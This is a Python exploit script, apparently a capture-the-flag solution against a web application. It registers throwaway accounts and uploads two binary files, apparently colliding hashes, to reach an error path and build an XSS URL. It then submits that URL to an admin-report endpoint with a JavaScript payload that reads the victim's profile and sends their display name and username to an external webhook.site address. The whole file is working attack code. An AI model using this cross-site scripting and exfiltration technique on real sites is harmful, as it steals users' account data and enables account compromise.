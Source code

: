 ```py
def getProfile(session):
    res = session.get(url+'/api/profile',allow_redirects=False)
    print(res.text)
    return res.json()

def bot(session) :  
    global XSS_PATH
    payload = "fetch('/api/profile').then(res=>res.json()).then(text=>fetch('https://webhook.site/49982724-4ed4-4980-bdbc-f7efed1b6335?q='+text.display_name+'&u='+text.username))"
    data = {
        "url"  : XSS_PATH + "#" +payload
    }
    res = session.post(url+'/api/report',json=data)
    print(res.text)

def createMsg1(username,password):
    s=  requests.Session()
    data = {
        "username":username,
        "password": password,
        "display_name": "1337",
    }
    with open("msg1.bin", "rb") as flag_file:
        files = {"flag": flag_file}
        response = requests.post(f"{url}/register",data=data, files=files, allow_redirects=False)
        print(response.cookies)
        return response

def checkFlag(session,checked_id,checker_id) :  
    global XSS_PATH
    with open("msg2.bin", "rb") as f: 
        data = {
            "flag": f.read()
        }
        try :
            response = session.post(f"{url}/api/users/{checked_id}/checkflag",data=data,allow_redirects=False)
            print("FAIL")
        except :
            print("SUCCESSFULLLY")
            res  = session.get(f"{url}/api/users/{checker_id}/guesses",allow_redirects=False)
            guess_id = res.json()['guesses'][-1]['guess_id']
            XSS_PATH += f"/api/users/{checker_id}/guesses/{guess_id}"
            print("XSS_URL: ", XSS_PATH)
##Create HasH

if admin_displayName =="" : 
    username= "fucaka"
    password=  "fuckaa"
    createMsg1(username,password)
    s = login(username,password)
    msg1Id = getProfile(s)
    print(f"MSG1 ID = {msg1Id}\n")


    ## Createt guesser
    username = "guessers"
    password = "guessers"
    register(username,password)
    s = login(username,password)
    guesserId = getProfile(s)
    print(f"GUESSER ID  = {guesserId}")
    checkFlag(s,msg1Id,guesserId)
```